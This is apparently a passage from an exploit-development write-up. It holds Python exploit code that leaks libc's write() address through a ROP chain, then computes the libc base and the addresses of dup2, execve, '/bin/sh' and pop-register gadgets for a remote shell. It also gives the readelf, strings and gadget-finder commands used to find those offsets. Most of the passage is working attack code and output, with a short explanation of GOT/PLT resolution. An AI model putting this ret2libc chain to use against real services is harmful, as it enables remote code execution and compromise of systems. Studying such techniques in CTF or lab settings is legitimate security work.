 ```
   print(colored("Data Length %s"%len(data),"green"))
   #print(colored("Data: %s"%binascii.hexlify(data),"green"))
   write_libc_address = p.recv(8,timeout=4) # read the write() address with the rop chains. its the write address from Libc
   write_libc_address_formed =struct.pack(">Q",u64(write_libc_address))
   print(colored("write_plt_address Length %s"%len(write_libc_address),"green"))
   print(colored("write_plt_address: 0x%s  "%binascii.hexlify(write_libc_address_formed).decode(),"green"))
   p.close()
   return u64(write_libc_address)

```

The GOT address will hold the address of "write" in libc as it's loaded. That's what I want to leak. The PLT is the table of code that contains the stubs to call the dynamic linker. So the first time a function is called, the GOT jump right back to the PLT which calls the linker. The linker updates the GOT so the next time it's called, it goes right to the function in libc. The PLT address will be constant relative to the program base. I finally have to find the offset of functions and gadgets etc.. and calculate the libc base address.

```
	     # readelf -s remote_libc.so | grep -e " dup2@@GLIBC" -e " execve@@GLIBC" -e " write@@GLIBC"
              #999: 00000000001109a0    33 FUNC    WEAK   DEFAULT   13 dup2@@GLIBC_2.2.5
              #1491: 00000000000e4e30    33 FUNC    WEAK   DEFAULT   13 execve@@GLIBC_2.2.5
              #2246: 0000000000110140   153 FUNC    WEAK   DEFAULT   13 write@@GLIBC_2.2.5


	     # strings -a -t x remote_libc.so | grep -i "/bin/sh"
		# 1b3e9a /bin/sh

	    #  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rdi "
	       # 0x0002155f: pop rdi ; ret  ;  (490 found)

	    #  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rsi"
	       # 0x00023e6a: pop rsi ; ret  ;  (147 found)

	    #  rp-lin-x64 -f remote_libc.so --unique -r 1 | grep -i "pop rdx"
	       # 0x00001b96: pop rdx ; ret  ;  (6 found)

	       write_offset_libc= 0x0000000000110140
	       dup2_offset_libc = 0x00000000001109a0
	       execve_offset_libc = 0x00000000000e4e30
	       binsh_offset_libc =  0x1b3e9a
	       pop_rdi_ret_offset = 0x0002155f
	       pop_rsi_ret_offset = 0x00023e6a
	       pop_rdx_ret_offset = 0x00001b96

	       libc_base = write_libc_address - write_offset_libc
	       dup2_address = p64(dup2_offset_libc + libc_base)
	       execve_address = p64(execve_offset_libc+libc_base)
	       binsh_address = p64(binsh_offset_libc+libc_base)   
	       pop_rdi_ret_address = p64(pop_rdi_ret_offset +libc_base)
	       pop_rsi_ret_address = p64(pop_rsi_ret_offset +libc_base)
	       pop_rdx_ret_address = p64(pop_rdx_ret_offset +libc_base)
```
